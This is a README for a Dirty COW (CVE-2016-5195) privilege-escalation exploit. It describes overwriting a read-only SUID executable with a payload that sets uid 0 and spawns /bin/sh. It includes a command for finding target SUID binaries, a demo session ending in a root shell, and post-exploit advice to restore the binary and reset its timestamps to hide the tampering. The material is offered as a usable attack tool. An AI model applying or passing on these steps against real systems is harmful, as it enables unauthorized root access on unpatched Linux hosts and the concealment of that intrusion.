 # Disclaimer
I am not  responsible for anything you do with this code. This code comes with no warranty.

# Description
Exploit for CVE-2016-5195 which maps a readonly SUID executable to memory (readonly) and
uses the race condition to overwrite it with an ELF of our choice. Payloads
are available in NASM format alongside the exploit code(cowshell-x86.asm && cowshell-x86_64.asm) if
you wish to see what's inside `cashm0ney`.

Payload elevates with `setuid(0)`, places `0` in `vm.dirty_writeback_centisecs`
to prevent the crash due to filesystem writeback, and pops a shell(`/bin/sh`). 
This version does not attempt to write to `/proc/self/mem`, so it should
be viable on CentOS/RHEL boxes. Still relies on ptrace, so it may fail if ptrace
is restricted on the target system.
# Pre-Exploit
Find a root-owned SUID executable that your current user has at least read access to:

`find / -type f -perm 4755`

# Demo
<pre>
meow@dirtytest:~/Desktop$ ./derpyc0w /bin/ping /tmp/ping
[*] Opened /bin/ping
[*] Backing up /bin/ping to /tmp/ping
[*] File mapped at 0x0x7f0cbe7ce000
[*] Waiting for child to alert
[*] Starting madvise thread.
[*] Alerted by child.
[*] Preparing to write 262 bytes
[*] Trying to perform writes.
[*] Wrote byte to 0
[*] Wrote byte to 1
[*] Wrote byte to 2
[*] Wrote byte to 3
[*] Wrote byte to 4
[*] Wrote byte to 5
[*] Wrote byte to 6
[*] Wrote byte to 7
[*] Wrote byte to 8
SNIP
[*] Wrote byte to 259
[*] Wrote byte to 260
[*] Wrote byte to 261
[+] w00t, writes finished
[+] Popping shell. Remember to restore /bin/ping from /tmp/ping with correct perms!
# id
uid=0(root) gid=1000(meow) groups=1000(meow),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),131(sambashare)
# 

</pre>

# Post-Exploit
You should restore the binary which got overwritten to it's original path from the backup that was created, and remember to chown && chmod it back to the correct ownership and permissions. Touch the modification dates back for the trifecta. 
